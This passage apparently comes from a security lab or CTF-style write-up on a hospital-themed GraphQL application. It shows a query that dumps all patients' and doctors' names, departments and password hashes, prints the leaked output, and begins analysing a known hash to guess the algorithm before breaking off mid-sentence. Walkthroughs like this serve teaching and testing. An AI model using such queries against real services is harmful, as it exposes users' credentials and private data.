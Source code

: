 It is possible to try fetch all users (both doctors and patients) passwords leveraging the following query:

```graphql
{
    allPatients {
        name
        password
        doctor {
            name
            department
            password
        }
    }
}
```

which outcomes: 

```graphql
{
    "data": {
        "allPatients": [
            {
                "doctor": {
                    "department": "Nephrology",
                    "name": "Jack",
                    "password": "e6a82bc32533b8009bd4b737152c6eded29322c7bcce9f0e622bc775559662a0"
                },
                "name": "Kate",
                "password": "87cdd14c6624d1f805d5fb98d4db0a598a38665a36b43da3d1c2e2ad13a6685c"
            },
            ...
            {
                "doctor": {
                    "department": "Gastroenterology",
                    "name": "Grace",
                    "password": "072608b9bfb6968e83072109cd33cdb108a98341bef5ce79d003bfe63dfcc992"
                },
                "name": "Mia",
                "password": "a8f0945476d33682a5ec095c2bee0edee7f11e8d9bbff3048a16d6a50b5e4d5a"
            }
        ]
    }
}
```

The application stores for each password its corresponding hash value. 
If we retrieve the password hash of the known account we previously logged in, we can analyze it and try guess the used algorithm.

    "name": "Demo",
    "password": "492d99acf39eb7d31f03a7ab0326943b13f47d3c16c907b5e7659e3cc9c5b46f"

We discover that 
